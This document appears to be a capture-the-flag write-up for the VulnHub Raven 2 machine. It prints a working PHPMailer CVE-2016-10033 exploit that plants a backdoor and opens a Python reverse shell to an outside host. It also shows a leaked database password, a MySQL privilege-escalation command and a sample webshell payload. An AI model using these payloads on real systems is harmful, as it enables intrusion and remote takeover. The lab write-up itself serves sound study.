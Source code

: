 ## Raven

https://www.vulnhub.com/entry/raven-2,269/

### www-data
Open 192.168.1.148:22
Open 192.168.1.148:80
Open 192.168.1.148:111
Open 192.168.1.148:34297

```
/img                  (Status: 301) [Size: 312] [--> http://192.168.1.148/img/]
/index.html           (Status: 200) [Size: 16819]
/contact.php          (Status: 200) [Size: 9699]
/about.html           (Status: 200) [Size: 13265]
/service.html         (Status: 200) [Size: 11114]
/css                  (Status: 301) [Size: 312] [--> http://192.168.1.148/css/]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.1.148/wordpress/]
/team.html            (Status: 200) [Size: 15449]
/manual               (Status: 301) [Size: 315] [--> http://192.168.1.148/manual/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.1.148/js/]
/vendor               (Status: 301) [Size: 315] [--> http://192.168.1.148/vendor/]
/elements.html        (Status: 200) [Size: 35226]
/fonts                (Status: 301) [Size: 314] [--> http://192.168.1.148/fonts/]
```

Flag 1 is inside `http://192.168.1.148/vendor/PATH`.

Path is /var/www/html/vendor/.

Flag 3 is inside `http://raven.local/wordpress/wp-content/uploads/2018/11/flag3.png`.

PHP Mailer 5.2.16 being used.

There is a [exploit](https://www.exploit-db.com/exploits/40974) to RCE for PHP Mailer under 5.2.18.

When we send contact, the application will POST to `mail.php`. Change to `/contact.php`.

We have to make some modification to the exploit works.
```python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

target = 'http://192.168.1.149'
backdoor = '/backdoor.php'

urlPOST = target + '/contact.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.1.125\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'subject':'anything',
        'email': '"exploiting\\\" -oQ/tmp/ -X/var/www/html/backdoor.php server"@protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'http://127.0.0.1:8080', 'https':'https://127.0.0.1:8080'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(urlPOST, data=m.to_string(),
                  headers=headers, proxies=proxies)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers, proxies=proxies)
if r.status_code == 200:
    print('[+]  ExPLoITeD ' + target)
            
```

Flag2 is inside `/var/www/`.

<br>

### Privilege Escalation
On wp-config.php:
```
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
```

Enumerating with LinPeas we find this version of mysql: mysql Ver 14.14 Distrib 5.5.60 (x86_64).

Searching for this, we get this [exploit](https://www.exploit-db.com/exploits/46249).
```
python2 dbExploit.py --username root --password 'R@v3nSecurity'
```

<br>

### PHP Mailer RCE Study Case
The function `mailSend` is vulnerable. When the Sender is not set, attackers can pass extra parameter to the mail command and execute arbitrary code.

Emulating environment:
```bash
docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033
```

There is no filter in `mailSend()` [function](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/src/class.phpmailer.php#L1445).
```php
$params = null;
//This sets the SMTP envelope sender which gets turned into a return-path header by the receiver
if (!empty($this->Sender)) {
	$params = sprintf('-f%s', $this->Sender);
}
```

Then, the code flow goes to `mailPassthru()` function, which, if running in `safe_mode` won't be vulnerable to this flaw, as the following code states it.
```php
//Can't use additional_parameters in safe_mode
//@link http://php.net/manual/en/function.mail.php
if (ini_get('safe_mode') or !$this->UseSendmailOptions or is_null($params)) {
	$result = @mail($to, $subject, $body, $header);
} else {
	$result = @mail($to, $subject, $body, $header, $params);
}
```

Below is the `mail()` function.
```php
bool mail ( string $to , string $subject , string $message [, string $additional_headers [, string $additional_parameters ]] )
```

There are several exploitation methods for different results, we will focus on the exploitation of the **5th parameter** to get Remote Code Execution (RCE). The parameter `$additional_parameters` is used to pass additional flags as command line options to the program configured to send the email.

An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```
